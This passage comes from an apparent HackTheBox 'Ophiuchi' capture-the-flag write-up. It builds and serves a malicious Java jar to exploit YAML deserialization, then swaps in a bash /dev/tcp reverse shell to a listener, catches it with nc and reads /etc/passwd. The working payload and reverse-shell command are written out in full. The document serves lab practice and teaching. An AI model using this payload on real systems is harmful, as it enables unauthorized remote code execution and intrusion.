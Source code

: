     :::text
    kali@kali:~/pown/htb_Ophiuchi/yaml-payload$ /usr/lib/jvm/java-11-openjdk-amd64/bin/javac src/artsploit/AwesomeScriptEngineFactory.java
    Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
    kali@kali:~/pown/htb_Ophiuchi/yaml-payload$ jar -cvf yaml-payload.jar -C src/ .
    Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
    added manifest
    adding: artsploit/(in = 0) (out= 0)(stored 0%)
    adding: artsploit/AwesomeScriptEngineFactory.class(in = 1620) (out= 680)(deflated 58%)
    adding: artsploit/AwesomeScriptEngineFactory.java(in = 1493) (out= 404)(deflated 72%)
    ignoring entry META-INF/
    adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
    adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)
    kali@kali:~/pown/htb_Ophiuchi/yaml-payload$ python3 -m http.server
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
    10.129.98.255 - - [20/Feb/2021 04:47:15] "GET /yaml-payload.jar HTTP/1.1" 200 -
    10.129.98.255 - - [20/Feb/2021 04:47:15] "GET /yaml-payload.jar HTTP/1.1" 200 -
    10.129.98.255 - - [20/Feb/2021 04:47:15] code 404, message File not found
    10.129.98.255 - - [20/Feb/2021 04:47:15] "GET /boom HTTP/1.1" 404 -


We modify it to use the reverse shell Java payload from
[Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#java)
and catch the new exception in the Java code as shown in the code block below.

    :::Java
    public AwesomeScriptEngineFactory() {
        try {
            Runtime r = Runtime.getRuntime();
            Process p = r.exec(new String[] { "/bin/bash", "-c", "exec 5<>/dev/tcp/10.10.14.16/4242;cat <&5 | while read line; do $line 2>&5 >&5; done" });
            p.waitFor();
        } catch (IOException | InterruptedException e) {
            e.printStackTrace();
        }
    }

Running it give us a reverse shell as the `tomcat` user.

    :::text
    $ nc -l -p 4242
    id
    uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

## Stored credential

We start enumerating and found out that the user is probably `admin`.

    :::text
    cat /etc/passwd
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    <SNIP>
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
    lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    tomcat:x:1001:1001::/opt/tomcat:/bin/false
    admin:x:1000:1000:,,,:/home/admin:/bin/bash
